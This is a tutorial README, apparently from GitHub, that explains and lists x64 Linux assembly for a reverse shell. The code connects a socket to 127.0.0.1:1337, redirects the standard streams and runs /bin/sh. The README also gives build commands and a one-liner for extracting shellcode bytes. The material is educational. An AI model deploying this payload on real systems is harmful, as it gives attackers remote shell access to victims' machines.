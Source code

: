 # Reverse-shell assembly x64 Linux

This assembly code creates a socket, connects to a specified IP address and port, and then duplicates the file descriptor for standard input, output, and error. It then executes a shell using the `execve` system call.

There are 4 main steps to creating a reverse shell:

1. Create socket
2. Connect
3. Redirect STDIN, STDOUT, and STDERR
4. Execute received commands

## Creating sockets

The socket is created using the socket system call with the following parameters:

- rdi: socket family (AF_INET = 2)
- rsi: socket type (SOCK_STREAM = 1)
- rdx: protocol (0)

The socket family specifies the domain in which the socket will be used (e.g. `AF_INET` for IPv4). The socket type specifies the type of communication (e.g. `SOCK_STREAM `for a stream socket). The protocol parameter is usually set to 0, which allows the system to choose the appropriate protocol for the specified socket family and type.

After the socket system call is executed, the socket descriptor is stored in the `rax` register and saved in the r9 register for future use.

```assembly
mov rax, 41   ; SYS_SOCKET = 41
    mov rdi, 2    ; socket family AF_INET = 2
    mov rsi, 1    ; SOCK_STREAM = 1
    mov rdx, 0    ; protocol = 0
    syscall
    mov r9, rax   ; sockfd saved
```

## Connections

The connection is established to host using the connect system call with the following parameters:

- rdi: socket descriptor (saved in r9 from the socket creation step)
- rsi: address of the sockaddr structure that specifies the IP address and port to connect to
- rdx: size of the sockaddr structure

The sockaddr structure is created on the stack by pushing the following values:

- IP address of the server (in network byte order)
- port number of the server (in network byte order)
- AF_INET value (2)

Worth to mention that the IP address and port are converted to network byte order by using the `bswap` and `xchg` instructions. The address of the sockaddr structure is then passed as the second parameter to the connect system call.

```assembly
    ; CONNECT
    mov rax, 42   ; SYS_CONNECT = 42
    mov rdi, r9   ; sockfd
    
        ; sockarrd structure creation
        mov rbx, 0x7f000001 ;IP addres localhost
        bswap rbx ; swaping to network byte order
        push rbx
        mov rbx, 0x539 ; 1337 port
        xchg bl, bh ; swaping to network byte order
        push bx 
        push word 0x02  ; pushing AF_INET=2
    
    mov rsi, rsp    ; sockarrd structure addres from stack
    mov rdx, 16  ; sizeof(serv_addr) ???
    syscall
```

## Redirect STDOUT ...

The duplicate file descriptor part of the code uses the dup2 system call to duplicate the file descriptor of the socket (saved in r9) for standard input, output, and error. This is done using three separate dup2 system calls, each with the following parameters:

- rdi: old file descriptor (r9)
- rsi: new file descriptor (0, 1, or 2 for stdin, stdout, and stderr, respectively)

The dup2 system call duplicates the old file descriptor and assigns it to the new file descriptor. In this case, it is used to redirect the standard input, output, and error streams to the socket, so that any input or output from the shell will be sent through the socket.

```assembly
    ; Duplicate file descriptors for stdin, stdout, and stderr
    mov rax, 33  ; SYS_DUP2 = 33
    mov rdi, r9 ; old file descriptor
    mov rsi, 0   ; socfd
    syscall

    mov rax, 33  ; SYS_DUP2 = 33
    mov rdi, r9 ; old file descriptor
    mov rsi, 1   ; socfd
    syscall

    mov rax, 33  ; SYS_DUP2 = 33
    mov rdi, r9 ; old file descriptor
    mov rsi, 2   ; socfd
    syscall
```



## Execve

The run shell section of the code uses the execve system call to execute a shell. The execve system call takes the following parameters:

- rdi: pathname of the file to execute
- rsi: argument vector (an array of pointers to null-terminated strings)
- rdx: environment vector (an array of pointers to null-terminated strings)

In this case, the pathname of the file to execute is the string "/bin/sh", which is stored in the ".rodata" section of the code. The argument and environment vectors are both set to 0 (NULL). This causes the execve system call to execute the shell with no arguments and no environment variables.

After the execve system call is executed, the shell will be run and will be able to receive and execute commands through the socket.

```assembly
    ; RUN SHELL
    mov rax, 59  ; SYS_EXECVE = 59
    lea rdi, [shell]
    xor rsi, rsi ; NULL, const char *const argv[]("//bin/sh", "//bin/sh", 0)
    xor rdx, rdx ; NULL, const char *const envp[] (0 or 0x00)
    syscall
```

## Compilation

To compile I used these commands

```sh
nasm -f elf64 rev.s
ld -o rev.bin rev.o
```

## Notes

THis can be as base for shell code if for example _start is substututed with function, then compiled and converted to shellcode like this

```assembly
for i in $(objdump -D reverse | grep "^ "|cut -f2); do echo -n '\\x'$i; done; echo
```

# References

- https://medium.com/@bytesoverbombs/x64-slae-assignment-2-reverse-shell-c4b0ace4e34e
- Values for flags https://github.com/openbsd/src/blob/master/sys/sys/socket.h
- https://medium.com/@bytesoverbombs/x64-slae-assignment-2-reverse-shell-c4b0ace4e34e
